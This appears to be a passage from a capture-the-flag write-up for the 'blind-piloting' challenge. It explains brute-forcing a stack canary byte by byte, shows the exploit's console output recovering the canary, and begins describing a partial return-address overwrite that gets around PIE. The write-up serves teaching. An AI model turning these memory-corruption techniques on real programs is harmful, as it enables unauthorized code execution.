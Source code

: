 The x86_64 LSB canary byte is always 0, so only 7 bytes to bruce-force.

The `x = [i for i in range(256) if i != 10 ]` expression creates an array of all byte values to test (`0x00` - `0xFF`) without `0xA` (`\n`).  This is important since `getInput` will terminate with a `\n`.  _But what if 0xA is part of the canary?_  Well, you're screwed, start over.

The rest of this snippet just loops though each position checking for `terminated` (frequent and quick, see output above), if not, then `j` must be a valid canary byte.

Example output:

```
root@53ade7d2b4a0:/pwd/datajerk/b01lersctf/blind-piloting# ./exploit.py
[x] Starting local process './blindpiloting'
[+] Starting local process './blindpiloting': pid 35650
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'000e'
b'000e76'
b'000e7605'
b'000e7605f7'
b'000e7605f702'
b'000e7605f7027a'
b'000e7605f7027aed'
HAVE CANARY
```

At this point any 8 characters + `b'000e7605f7027aed'` will pass the canary check and allow the stack to be smashed.

#### Smash stack and change return pointer to call `win`

Typically at this point we'd overwrite the saved base pointer and then the return address, however because of ASLR (_PIE enabled_--see above) we do not know what address to write.  However, we do not need to overwrite the entire address, just the lower bits.

To illustrate this add the following code and the end of the code above and rerun:

```
import code
code.interact(
    local=locals(),
    banner="\nfrom another terminal type: gef blindpiloting " + str(p.pid) + "\n",
    exitmsg="\ngoing back to code\n"
)
```

This code will startup the Python REPL preserving our current state:
